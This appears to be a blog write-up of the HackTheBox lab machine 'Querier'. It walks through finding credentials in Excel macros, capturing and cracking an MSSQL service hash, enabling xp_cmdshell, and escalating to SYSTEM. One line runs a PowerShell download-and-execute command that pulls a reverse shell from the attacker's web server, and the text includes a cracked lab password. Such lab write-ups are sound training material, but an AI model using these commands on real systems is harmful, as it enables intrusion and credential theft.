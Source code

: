 ```yaml
---
title: Querier
date: 2023-01-10 14:00
categories: [htb]
tags: [Windows,MSSQL,Outdated Software,Weak Credentials,Password Cracking,Powershell,Hash Capture]
---
```


 Querier is a medium level machine on HacktheBox that starts with discovering database credentials in the macros of a xlsm file on a network share. We can then login to the database as a low privelege user, and send the database service hash to our listener on responder using a nice trick from hacktricks. We crack the hash and login to the database with new credentials, which lets us enable xp_cmdshell and execute commands on the box. We finally escalate priveleges with the print spoofer exploit.

### Nmap

Results of nmap show

```bash
Host is up (0.051s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-01-10T20:04:25+00:00; 0s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-01-10T20:01:25
|_Not valid after:  2053-01-10T20:01:25
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-10T20:04:21
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds
```

We can use SMBmap with no username to see if we have anonymous access and list the shares.

![list](/assets/img/querier/list.png)

Reports is non-standard on Windows, meaning some body made this share. Let's check it out.

![reports](/assets/img/querier/reports.png)

We can download this Currency Volume Reports file and see if it gives us any info.

![macros](/assets/img/querier/macros.png)

Right off the bat we are hit with a blank file and a security warning that the document contains macros. Checking the macros reveals a  "connect" function, which contains credentials for a service account.

![creds](/assets/img/querier/creds.png)

Login to the mssql service on port 1433 with the credentials,and remember to use the -windows-auth flag.

![lowpriv](/assets/img/querier/lowpriv.png)

We can see that the credentials are valid for the database, however we don't have the privileges required to execute commands, and there's nothing else that we can see here that's interesting. Let's check out a trick from Hacktricks. If we set up a SMB server using responder or impacket, we can potentially steal the netNTLM hash of the database.

![hash](/assets/img/querier/hash.png)

Cracking this hash gives us the credentials mssql-svc:corporate568 , which we can use to login to the database again to see if we have more privileges this time around.

![cmdshell](/assets/img/querier/cmdshell.png)

We are able to execute commands as the service account now. Let's get a reverse shell and enumerate the box. We host the Nishang powershell reverse shell on a web server and download it from the victim machine using `xp_cmdshell echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.9/rev.ps1") | powershell -noprofile` and our web server gets a hit from the box, and then we get a hit on our netcat listener.

![rev](/assets/img/querier/rev.png)

we can upload PowerUp.ps1 in the same way and run `Invoke-AllChecks`

![gpp](/assets/img/querier/gpp.png)

Which gives admin credentials that were located in the C:\Windows\Panther\Unattend.xml file

![system](/assets/img/querier/system.png)

Using these credentials in psexec gives us a system shell.

Let's check another way we can root this box.

